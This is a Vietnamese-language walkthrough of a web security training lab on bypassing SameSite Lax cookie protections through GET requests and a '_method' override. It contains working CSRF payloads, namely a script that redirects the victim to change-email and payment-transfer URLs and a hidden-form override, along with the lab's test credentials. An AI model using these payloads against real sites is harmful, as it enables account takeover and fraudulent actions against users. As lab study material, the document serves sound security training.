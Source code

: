 # Bypassing SameSite Lax restrictions using GET requests

Trong thực tế, các máy chủ không phải lúc nào cũng khó chịu về việc nhận được GET hay POST request đến một endpoint nhất định, ngay cả những server đang mong đợi một form submission. Nếu server cũng sử dụng các Lax restrictions cho session cookie của họ, rõ ràng hoặc do mặc định của trình duyệt, bạn vẫn có thể thực hiện một cuộc tấn công CSRF bằng cách gợi ra GET request từ trình duyệt của nạn nhân.

Miễn là request liên quan đến một top-level navigation, trình duyệt vẫn sẽ bao gồm session cookie của nạn nhân. Sau đây là một trong những cách tiếp cận đơn giản nhất để khởi động một cuộc tấn công như vậy:

    <script>
        document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
    </script>

# Bypassing SameSite Lax restrictions using GET requests - Continued

Ngay cả khi GET request thông thường không được phép, một số frameworks cung cấp các cách ghi đè method được chỉ định trong request line. Ví dụ, Symfony hỗ trợ tham số *_method* trong forms, được ưu tiên hơn method thông thường cho mục đích định tuyến:

    <form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
        <input type="hidden" name="_method" value="GET">
        <input type="hidden" name="recipient" value="hacker">
        <input type="hidden" name="amount" value="1000000">
    </form>


Các framework khác hỗ trợ một loạt các tham số tương tự.

# Lab: SameSite Lax bypass via method override
![img](https://imgur.com/0IIf9QP.png)

### Web page: 
![img](https://imgur.com/K0VsB0f.png)

### Solution:

Log in vào account được cấp wiener:peter:

![img](https://imgur.com/g5YMUT4.png)

Trước khi Update email, mở Burp Suite và Intercept request: 

![img](https://imgur.com/0gc6SfI.png)

Nhận thấy request không chứa bất kỳ unpredictable tokens nào, nên có thể dễ bị tấn công CSRF.

Trong login request, nhận thấy trong response Set-Cookie header không được set bất kỳ SameSite restriction nào, nên Lax restriction sẽ được set theo mặc định: 

![img](https://imgur.com/0x5kNMy.png)

--> Nhận ra rằng điều này có nghĩa là session cookie sẽ được gửi trong cross-site GET request, miễn là chúng liên quan đến top-level navigation.

Thử thay đổi change email request từ POST thành GET method: 

![img](https://imgur.com/OPucYNO.png)

Response cho GET request: 

![img](https://imgur.com/0mUV2tM.png)

--> Endpoint chỉ cho phép POST request.

Thử ghi đè method bằng cách thêm *_method* param vào query string: 

*GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/2*

![img](https://imgur.com/SvWcYJv.png)

![img](https://imgur.com/LqGPZYL.png)

--> Thành công change email.

Truy cập Go to exploit server:

![img](https://imgur.com/35vlANU.png)

Tạo HTML/JavaScript payload chứa trình duyệt của người xem để đưa ra GET request độc hại. Payload này phải gây ra top-level navigation để bao gồm session cookie: 

    <script>
        document.location = "https://0aff006f03f26ded85d5b9ce005700c9.web-security-academy.net/my-account/change-email?email=wiener@test1.com&_method=POST";
    </script>

Click Deliver exploit to victim.

Solved the lab!

![img](https://imgur.com/yFv9Bnr.png)